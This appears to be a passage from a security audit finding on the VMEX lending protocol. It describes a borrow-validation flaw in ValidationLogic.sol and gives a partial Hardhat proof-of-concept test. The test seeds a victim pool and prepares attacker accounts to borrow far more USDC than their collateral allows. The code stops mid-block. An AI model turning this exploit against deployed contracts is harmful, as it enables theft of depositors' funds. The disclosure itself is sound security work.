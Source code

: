 #### Technical Details

[ValidationLogic.sol#L193](https://github.com/VMEX-finance/vmex/blob/e1c910c6cda1988524841684ed1f37fd649450b3/packages/contracts/contracts/protocol/libraries/logic/ValidationLogic.sol#L193).

In the following POC, an attacker can borrow 100,000 USDC with 10 ETH of collateral with ETH being priced around 270 USD in the tests, that's about 2,700 USDC of collateral. You can run this test in your test suite.

```typescript
import { APPROVAL_AMOUNT_LENDING_POOL } from "../../helpers/constants";
import {
  convertToCurrencyDecimals,
  convertToCurrencyUnits,
} from "../../helpers/contracts-helpers";
import { expect } from "chai";
import { ethers } from "ethers";
import { ProtocolErrors } from "../../helpers/types";
import { makeSuite, TestEnv } from "./helpers/make-suite";
import { CommonsConfig } from "../../markets/aave/commons";
import { getVariableDebtToken } from "../../helpers/contracts-getters";

const AAVE_REFERRAL = CommonsConfig.ProtocolGlobalParams.AaveReferral;

makeSuite("Borrow exploit", (testEnv: TestEnv) => {
  it("exploit", async () => {
    const { users, pool, weth, usdc, oracle } = testEnv;

    var ethPrice = await oracle.getAssetPrice(weth.address);
    console.log("eth price: ", ethPrice);

    var usdcPrice = await oracle.getAssetPrice(usdc.address);
    console.log("usdc price: ", usdcPrice);

    var victims = users[0];
    var config = await pool.getReserveData(usdc.address, 0);
    var debtToken = await getVariableDebtToken(config[7]);

    // Seed 1M in the pool.
    await usdc
      .connect(victims.signer)
      .mint(await convertToCurrencyDecimals(usdc.address, "1000000"));

    await usdc
      .connect(victims.signer)
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(victims.signer)
      .deposit(
        usdc.address,
        0,
        await convertToCurrencyDecimals(usdc.address, "1000000"),
        victims.address,
        "0"
      );

    var attackerAddress0 = users[1];
    var attackerAddress1 = users[2];
    await weth
      .connect(attackerAddress0.signer)
      .mint(await convertToCurrencyDecimals(weth.address, "10"));

    await weth
      .connect(attackerAddress0.signer)
```